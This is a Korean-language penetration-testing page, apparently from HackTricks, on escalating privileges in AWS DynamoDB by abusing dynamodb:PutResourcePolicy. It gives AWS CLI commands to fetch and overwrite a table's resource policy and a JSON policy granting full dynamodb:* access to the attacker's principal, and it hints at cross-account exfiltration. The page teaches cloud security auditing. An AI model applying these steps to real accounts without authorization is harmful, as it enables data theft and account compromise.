 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

dynamodb에 대한 자세한 정보는 다음을 확인하세요:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, 그리고 선택적으로 `dynamodb:GetResourcePolicy`

2024년 3월부터 AWS는 DynamoDB에 대해 *리소스 기반 정책*을 제공합니다 ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

따라서, 테이블에 대해 `dynamodb:PutResourcePolicy`가 있다면, 자신이나 다른 주체에게 테이블에 대한 전체 액세스를 부여할 수 있습니다.

무작위 주체에게 `dynamodb:PutResourcePolicy`를 부여하는 것은 종종 우연히 발생하며, 관리자가 `dynamodb:Put*`를 부여하면 주체가 데이터베이스에 항목을 추가할 수 있다고 생각하거나, 2024년 3월 이전에 해당 권한 세트를 부여했을 경우에 발생합니다...

이상적으로는, 다른 잠재적으로 중요한 권한을 덮어쓰지 않도록 `dynamodb:GetResourcePolicy`도 가지고 있어야 하며, 필요한 추가 권한만 주입해야 합니다:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
현재 정책을 가져올 수 없는 경우, 다음 정책을 사용하여 테이블에 대한 전체 액세스를 귀하의 주체에게 부여하십시오:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
리소스 정책을 설정하려면 `policy.json` 파일이 준비되어 있어야 합니다. 다음은 모든 가능한 DynamoDB 작업의 목록입니다: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). 그리고 리소스 기반 정책을 통해 허용될 수 있는 모든 작업의 목록과 *이 중 어떤 작업이 크로스 계정에서 사용될 수 있는지 (데이터 유출을 생각해보세요!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
이제 필요한 권한을 얻었을 것입니다.

### 포스트 익스플로잇

제가 아는 한, AWS에서 **일부 AWS `dynamodb` 권한만으로 권한을 상승시키는 다른 직접적인 방법은 없습니다**. 테이블에서 **민감한** 정보를 읽을 수 있고 (AWS 자격 증명이 포함될 수 있음) **테이블에 정보를 쓸 수 있습니다** (이는 lambda 코드 주입과 같은 다른 취약점을 유발할 수 있습니다...) 하지만 이러한 모든 옵션은 이미 **DynamoDB 포스트 익스플로잇 페이지**에서 고려되었습니다:

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: 데이터 스트림을 악용하여 데이터 읽기

{{#include ../../../banners/hacktricks-training.md}}
